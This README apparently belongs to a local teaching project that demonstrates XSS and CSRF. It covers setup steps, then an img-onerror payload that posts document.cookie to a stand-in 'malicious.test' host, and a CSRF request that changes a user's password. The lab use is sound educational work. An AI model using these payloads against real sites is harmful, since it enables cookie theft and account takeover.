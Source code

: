 # Web security demo

## Project setup

##### Step 1. Install `mkcert`

In order to get `https` to work on local `.test` domains, we need to create TLS certificates.
Using `mkcert` we can do it very easily.

Look for appropriate installation guide as per your operating system. Once `mkcert` is installed, run following command in your projects `nginx/certs` directory.

```bash
mkcert codersgyan.test
mkcert api.codersgyan.test
mkcert malicious.test
```

Above commands will create private key and certificate. Nginx will use these certs to configure `https` protocol.

##### Step 2. Setup /etc/hosts

Add these domains to `/etc/hosts` file. For windows Os please find the appropriate instructions.

```bash
127.0.0.1	codersgyan.test
127.0.0.1	api.codersgyan.test
127.0.0.1	malicious.test
```

##### Step 3. Build the nginx docker image

Make sure, you are in nginx folder, then run following command:

```bash
docker build -t web-security .
```

##### Step 4. Run the nginx docker container

```bash
docker run --add-host=host.docker.internal:host-gateway \
 -p 80:80 -p 443:443 \
  web-security
```

##### Step 5. Create `.env` file

Rename the `.env.example` file into `.env` file.

You can use following command:

```bash
mv .env.example .env
```

##### Step 6. Install dependencies
In project root run following command to install all the node dependencies.

```bash
npm install
```

##### Step 7. Run backend servers

Now our nginx is running, we need to run malicious node server and api server.

Run following commands in 2 separate terminal windows.

```bash
# Terminal 1
node server-api.js

# Terminal 2
node malicious-server.js

```

Now you will be able to access following domains in the browser.

-   https://codersgyan.test
-   https://malicious.test
-   https://api.codersgyan.test

### XSS Example 1

1. Open `https://codersgyan.test` and click on login, it will login with pre-added username and password and stores access-token and refresh-token in your browsers cookie.

2. Now since user is logged in and cookies are available now if he clicks on this link `https://codersgyan.test/?search=<img src=x onerror="fetch('https://malicious.test/steal-cookie', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({cookies: document.cookie})})"></img>` from any social engineering. His cookies which are not HttpOnly will be stored in malicious-server in a `stolen-cookie.txt` file.

### XSS Example 2

1.  1. Open `https://api.codersgyan.test` and click on login, it will login with pre-added username and password and stores access-token and refresh-token in your browsers cookie.

2.  Now in the comment section add below code in the comment section and save it `https://codersgyan.test/?search=<img src=x onerror="fetch('https://malicious.test/steal-cookie', {method: 'POST', headers: {'Content-Type': 'application/json'}, body: JSON.stringify({cookies: document.cookie})})"></img>`.

3.  If anyuser who logged in and open the webpage which loads the comment execute the script

### CSRF

1. Open `malicious.test` and it will make an api call to
   `fetch("https://api.codersgyan.test/forgot-password", {
    method: "POST",
    credentials: "include",
    headers: {
        "Content-Type": "application/json"
    },
    body: JSON.stringify({ email: "user@example.com", newPassword: "coders666" })
});` to change the password sending already set cookies if available.

2. Now password for the user will be changed
